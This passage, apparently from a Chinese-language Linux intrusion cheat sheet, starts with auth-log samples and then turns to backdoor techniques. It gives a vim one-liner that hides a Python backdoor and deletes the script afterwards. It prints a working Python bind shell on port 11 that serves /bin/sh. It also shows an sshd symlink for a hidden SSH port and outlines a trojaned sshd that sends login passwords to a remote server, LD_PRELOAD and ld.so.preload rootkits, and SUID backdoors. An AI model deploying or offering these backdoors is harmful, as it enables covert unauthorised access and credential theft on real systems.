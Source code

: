 ```bash
Jul 10 00:12:58 localhost passwd: pam_unix(passwd:chauthtok): password changed for kali
#grep "useradd" /var/log/secure 

4、删除用户kali日志：
Jul 10 00:14:17 localhost userdel[2393]: delete user 'kali'
Jul 10 00:14:17 localhost userdel[2393]: removed group 'kali' owned by 'kali'
Jul 10 00:14:17 localhost userdel[2393]: removed shadow group 'kali' owned by 'kali'
# grep "userdel" /var/log/secure

5、su切换用户：
Jul 10 00:38:13 localhost su: pam_unix(su-l:session): session opened for user good by root(uid=0)

sudo授权执行:
sudo -l
Jul 10 00:43:09 localhost sudo:    good : TTY=pts/4 ; PWD=/home/good ; USER=root ; COMMAND=/sbin/shutdown -r nowc
```
### 后门
#### vim后门
```
cd /usr/lib/python2.7/site-packages && $(nohup vim -E -c "pyfile dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f dir.py
```
-   此方法适用于安装了vim且安装了python扩展(绝大版本默认安装)的linux系统,至于恶意脚本dir.py的内容可以是任何功能的后门。如python版本的正向后门监听11端口。
其实就是将python的同行挂在了vim进程中实现隐藏
```python
#from https://www.leavesongs.com/PYTHON/python-shell-backdoor.html
from socket import *
import subprocess
import os, threading, sys, time

if __name__ == "__main__":
        server=socket(AF_INET,SOCK_STREAM)
        server.bind(('0.0.0.0',11))
        server.listen(5)
        print 'waiting for connect'
        talk, addr = server.accept()
        print 'connect from',addr
        proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
                stdout=talk, stderr=talk, shell=True)
```
#### ssh后门
##### sshd软链接
建立sshd的软连接方法，开启其它的端口
```shell
ln -sf /usr/sbin/sshd /home/su
/home/su -oport=2222
```
##### 替换原有sshd文件
源码中插入恶意代码重新编译并替换原有sshd文件，将登录成功的用户密码发送到远程服务器或者记录到某个log文件中。
##### 免密私钥
#### 预加载动态链接库后门
重写系统库函数实现劫持链接库
##### LD_PRELOAD
##### 直接将恶意so文件写入当执行对应命令是读取的文件位置
##### 修改动态链接器加载恶意动态链接库
替换或者修改动态链接器中的默认预加载配置文件/etc/ld.so.preload路径的rootkit
#### 提权后门
##### SUID提权后门
- find / -perm -4000